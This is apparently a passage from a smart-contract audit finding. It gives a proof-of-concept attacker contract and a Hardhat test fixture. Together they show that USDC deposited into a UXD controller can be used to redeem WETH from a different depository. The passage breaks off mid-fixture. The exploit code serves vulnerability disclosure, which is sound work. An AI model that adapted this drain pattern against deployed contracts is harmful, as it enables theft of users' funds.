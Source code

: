 The snippet below shows the `AttackPoCH01` contract that an attacker will use to prove the vulnerability.

Please place this file at `contracts/test/AttackPoCH01.sol` (new file).

```solidity
// SPDX-License-Identifier: BUSL-1.1-3.0-or-later
pragma solidity ^0.8.17;

import {IUXDController} from "../core/IUXDController.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract AttackPoCH01 {
    IUXDController public controller;
    IERC20 public weth;
    IERC20 public usdc;
    IERC20 public uxd;

    constructor(address _controller, address _weth, address _usdc, address _uxd) {
        controller = IUXDController(_controller);
        weth = IERC20(_weth);
        usdc = IERC20(_usdc);
        uxd = IERC20(_uxd);
    }

    function attackWethDepository(uint256 _amount) external {
        usdc.transferFrom(msg.sender, address(this), _amount);
        usdc.approve(address(controller), _amount);
        controller.mint(address(usdc), _amount, 0, address(this));

        uxd.approve(address(controller), _amount);
        controller.redeem(address(weth), _amount, 0, msg.sender);
    }
}
```

The below file provides the hardhat fixture `pocH01Fixture`.

Please place this file at `test/fixtures/pocH01Fixture.ts` (new file).

```typescript
import { ethers, upgrades } from "hardhat";
import { TestVulnRageDepository, TestERC20, MockWETH9, UXDController, UXDRouter, AttackPoCH01 } from "../../typechain-types";

export async function pocH01Fixture() {
    const weth = await (await ethers.getContractFactory("MockWETH9")).deploy() as MockWETH9;
    const uxd = await (await ethers.getContractFactory("TestERC20")).deploy("UDX", "UXD") as TestERC20;
    const usdc = await (await ethers.getContractFactory("TestERC20")).deploy("USDC", "USDC") as TestERC20;

    const UXDController = await ethers.getContractFactory("UXDController")
    const controller = await upgrades.deployProxy(UXDController, [weth.address]) as UXDController;

    const router = await (await ethers.getContractFactory("UXDRouter")).deploy() as UXDRouter;

    const VulnRageDepository = await ethers.getContractFactory("TestVulnRageDepository")
    const usdcDepository = await upgrades.deployProxy(VulnRageDepository, [usdc.address, uxd.address]) as TestVulnRageDepository;
    const wethDepository = await upgrades.deployProxy(VulnRageDepository, [weth.address, uxd.address]) as TestVulnRageDepository;

    await (await router.registerDepository(usdcDepository.address, usdc.address)).wait();
    await (await router.registerDepository(wethDepository.address, weth.address)).wait();
    await (await controller.whitelistAsset(usdc.address, true)).wait();
```